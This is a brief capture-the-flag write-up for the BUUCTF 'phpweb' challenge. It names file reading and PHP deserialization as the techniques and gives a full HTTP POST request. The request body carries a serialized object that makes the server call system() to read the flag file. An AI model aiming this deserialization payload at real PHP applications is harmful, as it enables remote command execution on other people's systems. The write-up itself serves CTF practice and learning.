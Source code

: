 # WP
[BUUCTF：[网鼎杯 2020 朱雀组]phpweb_末 初的博客-CSDN博客](https://blog.csdn.net/mochu7777777/article/details/116060210)
# 知识点
`readfile`、`file_get_contents`读取文件<br />反序列化进行命令执行
```http
POST /index.php HTTP/1.1
Host: dd77db5c-9c2d-4806-a259-8bb3e8964535.node4.buuoj.cn:81
Content-Length: 96
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dd77db5c-9c2d-4806-a259-8bb3e8964535.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dd77db5c-9c2d-4806-a259-8bb3e8964535.node4.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```
